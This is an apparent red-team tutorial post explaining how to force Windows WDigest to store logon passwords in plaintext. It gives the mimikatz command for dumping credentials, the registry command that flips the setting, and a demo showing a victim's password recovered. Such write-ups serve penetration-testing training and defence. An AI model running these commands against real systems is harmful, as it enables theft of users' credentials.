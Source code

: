 ```yaml
---
layout: post
title: "forcing wdigest to store credentials in plaintext"
date: 2024-06-18
categories: all_md_files
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /forcing-wdigest-to-store-credentials-in-plaintext/
---
```


---
layout: post
title: "forcing wdigest to store credentials in plaintext"
date: 2024-06-18
categories: credential-access-and-credential-dumping
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /forcing-wdigest-to-store-credentials-in-plaintext/
---

# Forcing WDigest to Store Credentials in Plaintext

As part of WDigest authentication provider, Windows versions up to 8 and 2012 used to store logon credentials in memory in plaintext by default, which is no longer the case with newer  Windows versions.&#x20;

It is still possible, however, to force WDigest to store secrets in plaintext.

## Execution

Let's first make sure that wdigest is not storing credentials in plaintext on our target machine running Windows 10:

{% code title="attacker@victim" %}
```csharp
sekurlsa::wdigest
```
{% endcode %}

Note the password field is null:

![](<../../.gitbook/assets/mimikatz 2.2.0 x64 (oe.eo) 5\_13\_2019 10\_42\_39 PM.png>)

Now as an attacker, we can modify the following registry key to force the WDigest to store credentials in plaintext next time someone logs on to the target system:

{% code title="attacker@victim" %}
```csharp
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
```
{% endcode %}

![](<../../.gitbook/assets/mimikatz 2.2.0 x64 (oe.eo) 5\_13\_2019 10\_44\_54 PM.png>)

Say, now the victim on the target system spawned another shell:

{% code title="victim@local" %}
```csharp
runas /user:mantvydas powershell
```
{% endcode %}

Running mimikatz for wdigest credentials now reveals the plaintext password of the victim user `mantvydas`:

![](../../.gitbook/assets/wdigestdemo.gif)

## References

{% embed url="https://p16.praetorian.com/blog/mitigating-mimikatz-wdigest-cleartext-credential-theft" %}

@spotheplanet
